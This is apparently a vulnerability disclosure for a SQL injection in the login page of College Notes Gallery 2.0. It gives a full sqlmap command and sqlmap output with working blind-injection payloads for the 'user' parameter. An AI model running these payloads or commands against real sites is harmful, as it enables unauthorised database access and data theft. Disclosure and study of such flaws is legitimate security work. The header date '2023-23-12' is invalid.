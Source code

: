 # College_Notes_Gallery-SQL_Injection
+ **Exploit Title:** College_Notes_Gallery-SQL_Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevbens
+ **Vendor Homepage:** https://code-projects.org/college-notes-gallery-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/COLLEGE_NOTES_GALLERY_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
College Notes Gallery 2.0 allows SQL Injection via parameter 'user' in "/notes/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the login page: "http://localhost/notes/login.php"
+ Fill the username and password then click 'login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database. 
```
sqlmap -r r.txt -p user --risk 3 --level 5 --threads 1 --random-agent tamper=randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=test' OR NOT 7621=7621-- SdON&pass=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 6983 FROM (SELECT(SLEEP(5)))KqgU)-- Reeu&pass=test&login=login
---
[16:16:28] [INFO] testing MySQL
[16:16:28] [INFO] confirming MySQL
[16:16:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:28] [INFO] fetching current database
[16:16:28] [INFO] resumed: notes
current database: 'notes'
```

+ current database: `notes`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/16752d90-2918-4777-884a-131dcd93b06e)
